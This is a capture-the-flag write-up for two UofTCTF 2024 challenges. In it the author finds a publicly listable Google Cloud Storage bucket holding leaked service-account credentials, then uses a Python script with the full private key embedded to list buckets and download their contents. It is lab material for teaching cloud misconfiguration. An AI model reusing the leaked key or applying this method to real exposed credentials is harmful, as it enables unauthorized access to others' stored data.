 # Uoftctf-2024

# Out of the Bucket

Check out my flag website! Author: windex

https://storage.googleapis.com/out-of-the-bucket/src/index.html
-----------------------------------------------------------------------------------------------------------------------------
First, visit the website according to the given link:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/c880c8f3-55c2-45e3-ade7-5c001796523f)

I can immediately see its path, it seems to be a static website, so I tried to edit its path by deleting `index.html` and reloading but I didn't get anything back, so I continued to delete `src/index.html` then gets the document tree. Here I can see the files (index.html, antwerp.jpg, guam.jpg, style.css) exported in the initial web interface and in addition there is a file `funny.json` and a path `src\dont_show.json`

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ffd2ce42-9d07-467b-a98a-536f55d20ffe)

I access the funny.json file following its path (secret/funny.json) 

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/37aa62bd-66a2-4ca8-8272-2000989e8e52)

Looking at its content, I see it contains authentication information...hmmm I haven't used it for now. I proceed to access the path 'src/dont_show' and my browser automatically downloaded it to my computer, then I open it with Notepad.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ea1c06be-cc0f-4bd4-ba5a-52a807bd8dad)

And I finally got the flag for this challenge.


# Out of the Bucket 2

This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!
Author: windex
-------------------------------------------------------------------------------------------------------------------------------------------------
Next, for this challenge, I think I have to reuse the authentication information from the first challenge (funny.json file) that I haven't used yet.
I noticed the information fields in the file like oauth,... and I noticed that the website path had 'storage.googleapis.com', I searched for information on the internet and got a some information about 'Google Cloud Storage with credentials'
(`https://stackoverflow.com/questions/52808848/how-to-initialize-google-cloud-storage-with-credentials`, `https://stackoverflow.com/questions/49748910/python-download-entire-directory-from-google-cloud-storage`)

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/aafb5752-36d6-498e-8941-f3abd1ca2ea5)

Didn't disappoint me, I found a few articles on stackoverfow, and now I can get an accurate opinion on everything I was thinking. The value fields are as shown in the article, they correspond to the value fields in the file 'funny.json'.
My task now is to use the authentication information in the funny.json file to be able to access the file content stored on Google Cloud Storage.
Based on the information in the article on Stackoverflow, I wrote a python code file to access Google Cloud Storage.

`from google.cloud import storage
from google.oauth2 import service_account

credentials_dict ={
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDWxpWEDNiWgMzz\nxDDF64CspqiGPxkrHfhS4/PX8BrxNjUMPAH7vYHE3KbgQsmPhbCte9opnSLdMqec\nWjll8lRZGEy73xhWd2e3tVRAf53r+pW/p6MTOsz3leUkQAscG4hmOVOpGb1AkfuE\n62NErJVZIgQCowrBdFGbPxQc/IRQJKzrCFfKOWSHLvnngr4Ui5CSr6OM33dfpD+v\nQSLkEQheYCXmHwh/Wf8b27be+RzfOp/hOyjKsJOmDvFu2+rrx24t8hCptof3BYol\nUjpaiB8Qcct/HoKOEvZ/S5rW6toQizP8t4t7urC2i70JdH+Y4Qw/AZJNuLo/5wW1\n+x8i3FIDAgMBAAECggEABaGapVC06RVNdQ1tffL+d7MS8296GHWmX34B6bqDlP7S\nhenuNLczoiwVkAcQQ9wXKs/22Lp5rIpkd1FXn0MAT9RhnAIYdZlB4JY3iaK5oEin\nXn67Dt5Ze3BfBq6ghpx43L1KDUKogfs8jgVMoANVEyDfhrYsVQWDZ5T60QZp7bP2\n0zSDSACZpFzdf1vXzOhero8ykwM3keQiCIKWYkeMGsX8oHyWr1fz7AkU+pLciV67\nek10ItJUV70n2C65FgrW2Z1TpPKlpNEm8jQLSax9Bi89HuFEw8UjTfxKKzhLFXEu\nudtAyebt/PC4HS9FLBioo3bAy8vL3o00b7+raVyJQQKBgQD3IWaD5q5s7H0r10S/\n7IUhP1TDYhbLh7pupbzDGzu9wCFCMItwTEm9nYVNToKwV+YpeyoptEHQa4CAVp21\nO4+W7mBQgYemimjTtx1bIW8qzdQ9+ltQXyFAxj6m3KcuAsAzSpcHkbP46lCL5QoT\nTS6T06Fs4xvnTKtBdPeisSgiIwKBgQDee+mp5gsk8ynnp6fx0/liuO3AZxpTYcP8\nixaXLQI6CI4jQP2+P+FWNCTmEJxMaddXNOmmTaKu25S2H0KKMiQkQPuwBqskck3J\npVTHudnUuZAZWE7YPg40MJgg5OQhMVwiqGWL76FT2bubIdNm4LQyxvDeK82XQYl8\nszeOXfJeoQKBgGQqSoXdwwbtF5Lkbr4nnJIsPCvxHvIhskPUs1yVNjKjpBdS28GJ\nej37kaMS1k+pYOWhQSakJCTY3b2m3ccuO/Xd6nXW+mdbJD/jsWdVdtxvjr4MMmSy\nGiVJ9Ozm9G/mt4ZSjkKIIN0cA8ef7uSB3QYXug8LQi0O2z7trM1pZq3nAoGAMPhD\nOSMqRsrC6XtMivzmQmWD5zqKX9oAAmE26rV8bPufFYFjmHGFDq1RhdYYIPWW8Vnz\nJ6ik6ynntKJyyeo5bEVlYJxHJTGHj5+1ZnSwzpK9dearDAu0oqYjhfH7iJbNuc8o\n8sEe2E7vbTjnyBgjcZ26PJyVlvpU4b6stshU5aECgYEA7ZESXuaNV0Er3emHiAz4\noEStvFgzMDi8dILH+PtC3J2EnguVjMy2fceQHxQKP6/DCFlNqf9KUNqJBKVGxRWP\nIM1rcoAmf0sGQ5gl1B1K8PidhOi3dHF0nkYvivuMoj7sEyr9K88y69kdpVJ3J556\nJWqkWLCz8hx+LcQPfDJu0YE=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}

credentials = service_account.Credentials.from_service_account_info(credentials_dict)
client = storage.Client( credentials=credentials) 
buckets=list(client.list_buckets())
print(buckets) # get list bucket 
bucket_flag = client.get_bucket('flag-images') #access to bucket
#bucket_flag = client.get_bucket('out-of-the-bucket')

for blob in bucket_flag.list_blobs():
	print(blob)
	filename = blob.name.replace('/', '_') 	
	blob.download_to_filename('flag/'+ filename) #download file to folder './flag'
	print("download file: {}".format(blob.name))`

Run the code and get the following results:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ccdb769f-649f-4bf7-ad65-a31c0e0620ad)

To explain the code:
I access Google Cloud Storage through:
`credentials = service_account.Credentials.from_service_account_info(credentials_dict
client = storage.Client( credentials=credentials)`
Next, I got information about the existing buckets on Google Cloud Storage using `buckets=list(client.list_buckets())` as you can see in the code execution results, we have 2 buckets: `flag-images` and `out-of-the-bucket` in first line.
Next, I proceeded to access bucket `flag-images` because I also tried accessing bucket `out-of-the-bucket` before but didn't get anything of value.
Proceed to query the blob in the bucket. blob.name includes the entire directory structure + filename, so if you want the same file name as in the bucket, you might want to extract it first (instead of replacing `/` with `_ `)
After completing the download process, I checked the downloaded content in the 'flag' folder.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/9048ec8d-f08d-445e-a6fa-cfd384e2ccb3)

I noticed that there is an image file '256x192_xa.png' that is different from other image files.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/cd4458f2-ec5d-4dda-bb8a-8c44f3f74e72)

Finnally, I got the flag for this challenge!!!
